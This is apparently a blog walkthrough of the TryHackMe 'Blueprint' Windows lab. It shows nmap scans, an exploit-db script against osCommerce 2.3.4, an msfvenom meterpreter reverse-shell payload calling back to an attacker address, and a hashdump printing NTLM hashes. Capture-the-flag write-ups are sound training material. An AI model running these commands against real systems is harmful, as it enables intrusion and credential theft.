 ```yaml
---
layout: post
title: Walkthrough - Blueprint
published: true
---
```


Security, Windows. Hack into this Windows machine and escalaye privileges to admin.

![](/assets/blueprint01.png)

[https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.226.32 -vvv``

```
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 125
135/tcp   open  msrpc        syn-ack ttl 125
139/tcp   open  netbios-ssn  syn-ack ttl 125
443/tcp   open  https        syn-ack ttl 125
445/tcp   open  microsoft-ds syn-ack ttl 125
3306/tcp  open  mysql        syn-ack ttl 125
8080/tcp  open  http-proxy   syn-ack ttl 125
49152/tcp open  unknown      syn-ack ttl 125
49153/tcp open  unknown      syn-ack ttl 125
49154/tcp open  unknown      syn-ack ttl 125
49158/tcp open  unknown      syn-ack ttl 125
49159/tcp open  unknown      syn-ack ttl 125
49160/tcp open  unknown      syn-ack ttl 125
```

- ``sudo nmap -sV -sT -sC -p80,135,139,443,445,3306,8080,49152,49153,49154,49158,49159,49160 10.10.226.32``

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Bad request!
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods: 
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 8080 has an osCommerce site version 2.3.4. searchsploit oscommerce 2.3.4. ``locate 50128`` and lets try to run this exploit. 

- ``python3 ~/exploitdb/exploits/php/webapps/50128.py http://10.10.22.83:8080/oscommerce-2.3.4/catalog``

![](/assets/blueprint02.png)

- ``whoami /priv`` can see SeImpersonatePrivilege is Enabled.

- ``wmic useraccount get name`` give us Administrator, Guest, and ``Lab`` users.

- unfortuneatly this shell doesnt let us too much so lets look at 43191.py which is an Arbitraty File Upload. ``locate 43191.py`` and should let us upload a windows php revshell.

Using ``multi/http/oscommerce_installer_unauth_code_exec`` in ``msfconsole`` we can upload and execute a revshell ``msfvenom -p windows/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f exe > winshell.exe``

Start up a second msfvenom console and start multi handler listener to get a stable shell. ``hashdump`` to dump user creds.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

* * * 

## "Lab" user NTML hash decrypted

- crackstation.net

* * * 

## root.txt

![](/assets/blueprint03.png)

* * * 

